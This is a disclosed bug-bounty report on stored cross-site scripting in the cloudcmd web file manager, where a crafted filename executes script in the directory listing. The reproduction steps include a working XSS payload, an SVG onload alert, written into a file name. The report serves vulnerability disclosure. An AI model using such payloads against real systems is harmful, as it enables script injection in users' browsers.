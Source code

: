 # [cloudcmd] Stored XSS in the filename when directories listing

## Report Details
- **Report ID**: 341044
- **URL**: https://hackerone.com/reports/341044
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-04-20T09:12:33.738Z
- **Disclosed**: 2018-04-25T17:46:22.250Z

## Reporter
- **Username**: tungpun
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a Stored XSS issue in module **cloudcmd**
It allows executing malicious javascript code in the user's browser.

# Module

**module name**: cloudcmd
**version**: 9.1.5
**npm page**: https://www.npmjs.com/package/cloudcmd

## Module Description

> Cloud Commander is an orthodox web file manager with console and editor.

## Module Stats

4,433 downloads in the last week

{F288918}

# Vulnerability

## Steps To Reproduce:

* Install the module

```
$ npm i cloudcmd
```

* Run

```
$ ./node_modules/cloudcmd/bin/cloudcmd.js --root .
```

* In the target directory, create a file with name `"><svg onload=alert(3);>`

```
bash$ touch '"><svg onload=alert(3);>'
```

* In the browser, go to http://127.0.0.1:8080/, the XSS popup will fire.

{F288917}

## Supporting Material/References:

* macOS High Sierra 10.13.4
* node v8.10.0
* npm 5.6.0
* Chrome Version 65.0.3325.181 (Official Build) (64-bit)

# Wrap up

- I contacted the maintainer to let them know: N
- I opened an issue in the related repository: N

## Impact

It allows executing malicious javascript code in the user's browser

## Attachments
- cloudcmd2.png
- cloudcmd3.png
